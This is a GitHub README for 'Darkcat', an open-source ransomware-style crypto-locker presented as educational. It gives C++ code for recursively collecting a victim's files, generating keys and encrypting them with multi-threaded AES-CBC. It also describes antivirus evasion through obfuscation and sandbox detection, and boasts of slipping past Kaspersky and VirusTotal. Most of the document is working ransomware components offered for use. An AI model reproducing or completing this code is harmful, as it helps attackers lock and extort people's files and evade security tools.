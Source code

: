 
**DISCLAIMER**: This tool is intended for educational purposes only.
The author assumes no responsibility or liability for any damages
caused by the execution of this algorithm, use at your own risk.

# 74E>64G Project - A Strong Prototype Locker
Darkcat is an Open Source Crypto-locker directed at an audience with an interest in the field of Cyber Security. The locker is similar to how very obnoxious Ransomewares operate using 2-Layer Key Encryption with the intent of making it almost impossible to recover any key from memory even during the event of Encryption. It utilizes Multi-threaded 128-bit AES Encryption which makes it very fast with the cost of leaving somewhat of a footprint on the CPU for modern activity based Antivirus Softwares to pick up. My Kaspersky didn't detect any suspicious activity in most runs, especially ones that didn't involve lots of files, with that being said the algorithm logs keys on the console but doesn't save any, so use at your own risk.
```c
/*   -0-    ,    *     o    .     *    .    o    .  -O-   '  *  . o
 *  .  '     ____  ____  ____  _  __ ____  ____  _____  .  '  ,  *
 *     .  * /  _ \/  _ \/  __\/ |/ //   _\/  _ \/__ __\  *  . |  '
 *  *     . | | \|| / \||  \/||   / |  /  | / \|  / \  '  ,  o  '
 *  .  '    | |_/|| |-|||    /|   \ |  \_ | |-||  | | ' |   *   .
 *  '  *  . \____/\_/ \|\_/\_\\_|\_\\____/\_/ \|  \_/ *     .    o
 *  *    '  ,     '     .    -0-    .    *    .  ' |   ,   *    '
 * Alexander
 * Toepfer 2020
 */
```

![Preview](in-the-wild.gif)

## Summary
  1. AV Evasion techniques used to bypass Engines.
  2. Fetching files recursively from a given root directory.
  3. Generation of 128-bit Keys used for Encryption.
  4. Multi-threaded Encryption applied on sorted vector of files.

## AV Evasion techniques
The techniques used for AV Engine Evasion in Darkcat are Behaviour Obfuscation, Data Encryption and Sandbox Detection which make it fairly successful in dealing with most Engines that analyze the binary or execute it, but it is still far from perfect, as some elaborate AV Softwares using analysis based on Machine learning still detect malicious activity, which makes this implementation not FUD. In the following Code Snippets all of the above mentioned techniques will be left out, as otherwise the Source Code would be unreadable.

## Fetching files from directory
```c
    std::string path = "C:\\Path\\To\\Testfolder";
    /* First loop identifying files */
    std::vector< file > files;
    for( const auto& entry : std::filesystem::recursive_directory_iterator( path ) ) {
        if( std::filesystem::is_regular_file( entry.path() ) ) {
            /* Ignore any keyfiles in the directory */
            if( entry.path().filename() == keyfilestr )
                continue;
            /* Ignore certain files in certain modes */
            if( ( ( entry.path().extension() == fileExtension ) && encrypt ) ||
                ( ( entry.path().extension() != fileExtension ) && !encrypt ) )
                continue;
            file f( entry.path(), std::filesystem::file_size( entry.path() ) );
            /* Ignore files that are included already */
            if( std::find( files.begin(), files.end(), f ) != files.end() )
                continue;
            files.push_back( f );
        }
    }
    /* Sort by size with file.operator>() */
    std::sort( files.begin(), files.end() );
```
You could also do this with Boost instead of \<filesystem\> but it comes down to preference. You will also need to implement a file class for this implementation to work to store file information and for sorting, but that's not really a requirement, feel free to use an array of filesystem::path if that fits your needs.

## 128-bit Key Generation
```c
std::string randomString( size_t length ) {
    /* Function returning the charset used */
    const auto chset = charset();
    std::default_random_engine rng( std::random_device{}() );
    /* Uniformly distributed values on closed interval */
    std::uniform_int_distribution<> dist( 0, chset.size() - 1 );
    /* Function returning a random character from charset */
    auto randchar = [ chset, &dist, &rng ]() { return chset[ dist( rng ) ]; };
    std::generate_n( str.begin(), length, randchar );
    return str;
}
std::string key1 = randomString( 16 ), key2 = randomString( 16 );
```
You could also use rand() with modulo here to just generate n-indices for your charset but i prefer this solution even though seeding the random generator is a complete nightmare and the standard makes no guarantees about its quality, efficiency or repeatability between implementations.

## Multi-threaded Encryption
```c
/* Second loop alter files */
std::vector< std::thread > threads;
for( const auto& f : files ) {
    if( encrypt ) {
	    std::thread t( fileEncrypt,  f.path, key, iv );
		threads.emplace_back( std::move( t ) );
	}
	else ...
}
/* Wait for processes to finish */
for( int i = 0; i < threads.size(); ++i ) {
    threads[ i ].join();
}

/* Crypto++ encryption of std::string */
std::string stringEncrypt( std::string plain,
                           CryptoPP::byte key[ CryptoPP::AES::DEFAULT_KEYLENGTH ],
                           CryptoPP::byte iv[ CryptoPP::AES::BLOCKSIZE ] ) {
    std::string cipher;
    CryptoPP::AES::Encryption aesEncryption( key, CryptoPP::AES::DEFAULT_KEYLENGTH );
    CryptoPP::CBC_Mode_ExternalCipher::Encryption cbcEncryption( aesEncryption, iv );
    CryptoPP::StreamTransformationFilter stfEncryptor( cbcEncryption,
					               new CryptoPP::StringSink( cipher ) );
    stfEncryptor.Put( reinterpret_cast< const unsigned char* >( plain.c_str() ),
					  plain.length() );
    stfEncryptor.MessageEnd();
    return cipher;
}
```
For AES-128 I didn't make my own implementation here because the solution needs to be somewhat fast and reliable, but I can see making an adaptation could help with more AV Evasion in the long run so it's very tempting.

## Virustotal

![Preview](virustotal-scan.gif)
